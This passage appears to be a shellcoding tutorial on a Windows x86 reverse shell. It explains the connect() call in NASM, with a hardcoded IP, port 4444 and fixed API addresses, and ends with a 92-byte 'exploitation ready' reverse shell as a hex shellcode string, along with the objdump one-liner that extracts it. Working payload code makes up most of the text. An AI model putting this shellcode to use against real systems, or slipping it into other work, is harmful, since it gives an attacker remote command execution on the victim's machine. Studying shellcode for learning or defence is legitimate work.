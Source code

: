For the reverse shell, we will reuse a lot from the bind shell code. In fact, we are just going to replace bind(), listen() and accept() with connect(). 

## System call: connect

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect</a>

Syntax:
```nasm
connect(SOCKET s, const sockaddr *name, int namelen)
```

The connect system call connects to a socket. It takes three arguments and looks more or less like bind().

```nasm
push 0x8201A8C0      ; Remote IP address, 192.168.1.130   
mov eax, 0x5c110102  ; Port nr, 4444 (first 2 bytes) 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Store portnr on stack
mov esi, esp         ; Store pointer to portnr
xor eax, eax         ; Clear eax
mov al, 0x10         ; Makes eax = 0x00000010
push eax             ; Arg3 (namelen) = 16 bytes
push esi             ; Arg2 (*name) = esi -> 0x5c110002 (5c11 = 4444, 0002 = INET_AF)
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71ab4a07  ; Address to connect()
call eax
```

The logic for the remote IP address is the following:
```text
82 = 130
01 = 1
A8 = 168
C0 = 192
```

### Exploitation ready reverse shell (92 bytes)

Compiled without LoadLibraryA() and WSAStartup().

```bash
$ for i in $(objdump -d reverse.exe | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x50\x6a\x01\x6a\x02\xb8\x6a\x8b\xab\x71\xff\xd0\x89\xc3\x68
\xc0\xa8\x38\x01\xb8\x02\x01\x11\x5c\xfe\xcc\x50\x89\xe6\x31\xc0\xb0\x10\x50\x56
\x53\xb8\x07\x4a\xab\x71\xff\xd0\xba\x63\xd3\x81\x7c\x53\x6a\xf6\xff\xd2\x53\x6a
\xf5\xff\xd2\x53\x6a\xf4\xff\xd2\xc7\x44\x24\xfb\x41\x63\x6d\x64\x8d\x44\x24\xfc
\x8d\x64\x24\xfc\x50\xb8\xc7\x93\xc2\x77\xff\xd0
```

Highly recommended read about shellcoding:
<a href="http://www.hick.org/code/skape/papers/win32-shellcode.pdf">http://www.hick.org/code/skape/papers/win32-shellcode.pdf</a>

